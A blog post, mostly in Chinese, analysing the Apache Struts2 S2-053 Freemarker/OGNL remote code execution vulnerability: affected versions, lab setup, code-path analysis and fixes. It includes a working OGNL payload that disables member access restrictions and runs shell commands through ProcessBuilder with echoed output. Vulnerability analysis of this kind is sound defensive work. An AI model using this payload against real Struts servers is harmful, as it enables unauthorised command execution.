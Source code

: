 ```yaml
---
layout:     post
title:      "Apache Struts2 Remote Code Execution (S2-053) "
subtitle:   "Analysis of the Vulnerabilities"
date:       2017-09-15
author:     "Urahara"
header-img: "img/e208e5acad48b373c311a46087757044.jpg"
header-mask: 0.3
tags: 
    - Struts2
    - Remote Code Execution


---
```


### Versions Affected

```
Struts 2.0.1 - Struts 2.3.33, 
Struts 2.5 - Struts 2.5.10
```

### Description

> A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals
>
> When using expression literals or forcing expression in Freemarker tags (see example below) and using request values can lead to RCE attack.

```php+HTML
<@s.hidden name="redirectUri" value=redirectUri />

<@s.hidden name="redirectUri" value="${redirectUri}" />

<@s.hidden name="${redirectUri}"/>
```

根据官方表述该漏洞主要是Freemarker模板语言的一个特性，被开发人员错误利用导致因传入ognl表达式而造成RCE的风险，所以再结合官方给出的错误编码示例，很容易猜测到这个漏洞首先是一个安全编码导致的问题，而非struts2通杀漏洞，因此官方对该漏洞的风险定级为中危。

在java领域，表现层技术主要有三种：jsp、freemarker、velocity。Struts2使用FreeMarker作为其默认的模板引擎，FreeMarker负责将数据模型中的数据合并到模板中，从而生成标准输出，对于界面开发人员而言，他们只关心界面（也就是模板文件）的开发，而无需理会底层数据，而对于业务逻辑开发者，他们只需要关心负责将需要显示的数据填入数据模型即可，对于传统的jsp页面而言，FreeMarker是一个绝佳的替代方案。

### Vulnerability Environment

根据官方的漏洞表述，我们使用struts-2.5.10版本，写一个在FreeMarker中使用Struts2标签的ftl模板文件，功能比较简单获取name并输出

![freemarker-ftl](http://reverse-tcp.xyz/img/struts2/s2-053-freemarker-ftl.png)

在 Action 中，为了将name值传到以上的Freemarker 模板中，将name值绑定到相应的属性中即可， action 代码如下：

![freemarker-java](http://reverse-tcp.xyz/img/struts2/s2-053-freemarker-java.png)

这样一个漏洞环境就搭建好了，接下来就是进行漏洞测试和分析

### Vulnerability Analysis

漏洞利用很简单，提交`%{2*333}`观察返回name值，表达式被正确执行即可

![freemarker-page](http://reverse-tcp.xyz/img/struts2/s2-053-freemarker-page.png)

POC同s2-045就可以，带回显POC如下：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ipconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

我们知道在ftl模板里${···}本身就是ognl表达式，所以这个漏洞没有什么可以去分析的漏洞触发机制，不过作为struts2的ognl表达式执行漏洞学习案例还是不错的，很直接！

先看\org\apache\struts2\views\freemarker\ScopesHashModel.class，Struts2 Action get从前台获取到参数内容后，会先获得用户提交的参数名，然后从值栈（Value Stack）中找到符合参数值的内容（ognl），其中主要用到ValueStack的findValue方法

![s2-053-analysis1](http://reverse-tcp.xyz/img/struts2/s2-053-analysis1.png)

当action处理完成后，调用set方法。这里需要注意在Component类的copyParams方法，其中用到了setValue来处理，所以action的实例变量可以被OGNL访问

![s2-053-analysis2](http://reverse-tcp.xyz/img/struts2/s2-053-analysis2.png)

同样的在OgnlValueStack中的setValue再进行处理，继续跟进最后发现被OgnlUtil中的setValue来传递ognl表达式

最终ognl表达式被OgnlValueStack中的findValue所执行，因为POC不是以#开头，会把expr当做key值到contextMap中找，再次过程中ognl表达式被执行。

![s2-053-analysis3](http://reverse-tcp.xyz/img/struts2/s2-053-analysis3.png)

### Solution

首先你可以进行struts2版本升级，其中对freemarker配置中进行了更多的限制，其次本文开始就说了，这首先是一个安全编码的问题，正确的标签使用方法如下：

![solution](http://reverse-tcp.xyz/img/struts2/s2-053-solution.png)







